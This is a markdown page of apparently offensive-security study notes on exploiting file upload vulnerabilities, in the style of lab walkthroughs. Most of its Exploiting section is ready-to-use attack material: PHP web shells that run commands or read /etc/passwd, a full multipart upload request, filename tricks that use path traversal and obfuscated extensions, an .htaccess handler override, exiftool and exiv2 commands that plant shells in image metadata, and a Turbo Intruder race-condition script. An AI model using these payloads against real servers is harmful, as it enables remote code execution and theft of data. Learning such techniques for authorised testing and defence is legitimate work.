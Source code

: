 ```yaml
---
description: Uploading a file on a website without validation.
cover: https://www.plexal.com/wp-content/uploads/2023/05/MicrosoftTeams-image-171.png
coverY: 0
---
```


# File Upload

File upload occurs when a web server allows users to upload files to its filesystem without validating.

#### <mark style="color:purple;">**"Content-Type" header:**</mark>

* Simple text like name, address: "application/x-www-form-url-encoded"
* Large amounts of binary data, like image or a PDF: "multipart/form-data"

#### <mark style="color:purple;">**"Content-Disposition" header:**</mark>

* If request message body is split into separate parts, each part contains a "Content-Disposition" header, which provides some basic information about the input field.&#x20;
* And it has a "Content-Type" header which tells the server the MIME type of the data that was submitted using this input.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:yellow;">PHP web shell upload</mark>

```php
// Send in a HTTP request body
<?php echo file_get_contents('/path/to/target/file'); ?>
```

```php
// Send in a HTTP request body
<?php echo system($_GET['command']); ?>

// Usage in HTTP GET request
GET /example/exploit.php?command=id HTTP/1.1
```

<mark style="color:purple;">**Example:**</mark>

```http
// Edit HTTP request with "BurpSuit Proxy"
POST /my-account/avatar HTTP/1.1
Host: test.net
LOPLOP
Content-Type: multipart/form-data; boundary=---------------------------4714704787410783474211833593
Content-Length: 523
LOPLOP
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="avatar"; filename="f.php"
Content-Type: image/png
<?php echo file_get_contents('/etc/passwd'); ?>
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="user"
TEST
-----------------------------4714704787410783474211833593
```

### <mark style="color:yellow;">Web shell upload via path traversal</mark>

```php
// Send file upload request:
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
```

### <mark style="color:yellow;">Overriding the server configuration</mark>

#### <mark style="color:purple;">Load a directory-specific configuration from a file and edit it:</mark>

\- IIS Server: "web.config"\
\- Apache Server: ".htaccess"

### <mark style="color:yellow;">Obfuscating file extensions</mark>

Most exhaustive blacklists can potentially be bypassed using classic obfuscation techniques.

#### &#x20;<mark style="color:purple;">In the "Content-Disposition" header, change the value of the filename parameter to:</mark>

#### <mark style="color:purple;">Example:</mark>

```php
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg"
```

#### <mark style="color:purple;">or</mark>

```php
- exploit.pHp
- exploit.php.jpg
- exploit.php.
- exploit.p.phphp
- using the URL encoding (or double URL encoding) for dots: exploit%2Ephp
- Add semicolons or URL-encoded null byte characters before the file extension: exploit.asp;.jpg or exploit.asp%00.jpg
- using multibyte unicode characters like xC0 x2E, xC4 xAE or xC0 xAE
```

### <mark style="color:yellow;">Web shell upload via extension blacklist bypass (upload malicious .htaccess file)</mark>

#### <mark style="color:purple;">Send request which upload file to server in Burp Repeater then:</mark>

* Change the value of the "**filename**" parameter to "**.htaccess**".
* Change the value of the "**Content-Type**" header to "**text/plain**".
* Replace payload with `AddType application/x-httpd-php .l33t`
* Resend the request with your payload and its "**filename**" should be "**exploit.l33t**".
* Now web shell was successfully uploaded.

### <mark style="color:yellow;">Remote code execution via polyglot web shell upload</mark>

```php
// This adds your PHP payload to the image's Comment field
$ exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/path/secret_file') . ' END'; ?>" icon.png -o polyglot.php
$ exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
```

### <mark style="color:yellow;">Exploiting file upload race conditions</mark>

Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata.

#### <mark style="color:purple;">**Example:**</mark>

As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses.

Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed.\
\
To solve this challenge, we can use **Turbo Intruder**. Turbo Intruder is a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''  # Post web shell to run your payload

    request2 = '''<YOUR-GET-REQUEST>'''    # Get web shell output

    engine.queue(request1, gate='race1')
    
    for x in range(5):
        engine.queue(request2, gate='race1')

    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)

```

### <mark style="color:yellow;">Exploiting file upload vulnerabilities without RCE</mark>

#### <mark style="color:purple;">Uploading malicious client-side scripts</mark>

If you can upload HTML files or SVG images, you can potentially use tags to create stored XSS payloads.

#### <mark style="color:purple;">Exploiting vulnerabilities in the parsing of uploaded files</mark>

You know that the server parses XML-based files, such as Microsoft Office .doc or .xls files, this may be a potential vector for XXE injection attacks.
